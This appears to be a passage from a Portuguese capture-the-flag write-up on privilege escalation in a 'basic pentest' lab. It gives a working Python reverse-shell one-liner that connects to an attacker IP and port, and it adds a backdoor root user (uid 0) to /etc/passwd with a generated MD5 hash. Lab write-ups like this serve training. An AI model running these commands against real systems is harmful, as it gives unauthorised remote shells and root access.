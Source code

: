 Vamos usar o vim para editar o passwd e adicionar um usuário root em /etc/passwd , o formato é  `username:passwordHash:uid:gid:userDescription:homeDirectory:shell`  
Jeito mais fácil é copiar o usuário root editar nome root para o que deseja, adicionar a hash da senha no X e colar no final do arquivo.
![Alt text](/assets/img/basicpentest7.png)  

### Editando o /etc/passwd
Criando uma hash de senha

```shell
┌──(kali💀kali)-[~/thm/basicpentest/SUID3NUM]
└─$ mkpasswd -m MD5 senha123  
$1$6J7Qm/pl$XEcnTX.drtQwQ4.OMk8RU/

pentest:$1$6J7Qm/pl$XEcnTX.drtQwQ4.OMk8RU/:0:0:root:/root:/bin/bash
```
{: .nolineno }
Como tava impossível de usar o vim pelo metasploit, fiz uma shell reversa listando o netcat e executando na shell do metapsploit

```shell
tomcat9@basic2:/tmp$ python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.6.125.125",4443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")'
<o(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")'           
```
{: .nolineno }
Ao receber a shell o upgrade é feito da seguinte maneira
```text
python3 -c ‘import pty;pty.spawn("/bin/bash")’
CTRL+Z
stty raw -echo;fg    
reset
se perguntar o tipo digite screen
export TERM=xterm
```
{: .nolineno }
## **Escalação de Privilégio**
### Escalando para root
Agora basta editar o passwd e adicionar o usuário com senha
